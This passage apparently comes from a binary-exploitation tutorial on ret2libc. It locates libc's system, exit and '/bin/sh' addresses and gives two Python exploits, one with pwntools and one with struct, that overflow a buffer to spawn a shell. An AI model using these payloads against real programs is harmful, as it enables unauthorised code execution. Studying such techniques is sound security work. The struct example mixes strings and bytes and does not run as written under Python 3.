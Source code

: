 > **exit@@GLIBC\_2.0**: 0x0003bc90

## Find /bin/sh string

```
$ strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep "/bin/sh"
 1b5faa /bin/sh
```

> **/bin/sh:** 0x001b5faa


## Exploiting

This is an example with `pwntools`:

```python
io = start()

# Offset to EIP
padding = 76

#Addresses
libc_base = 0xf7d7c000
system = libc_base + 0x4c800
exit = libc_base + 0x3bc90
binsh = libc_base + 0x1b5faa

# Build payload
payload = flat(
  asm('nop') * padding, # Offset to EIP
  system, # Address of SYSTEM function in LIBC
  exit, # Return pointer
  binsh # Address of /bin/sh in LIBC
)

# Save payload to a file
write('payload.bin', payload)

# Exploit
io.sendlineafter(b':', payload)

# Get shell
io.interactive()
```

Another example with `struct`:

```python
import struct

offset = 52
overflow = "A" * offset

libc = 0xb7e19000

system = struct.pack('<I', libc + 0x0003ada0)
exit = struct.pack('<I', libc + 0x0002e9d0)
binsh = struct.pack('<I', libc + 0x0015ba0b)

payload = overflow + system + exit + binsh
print(payload)
```
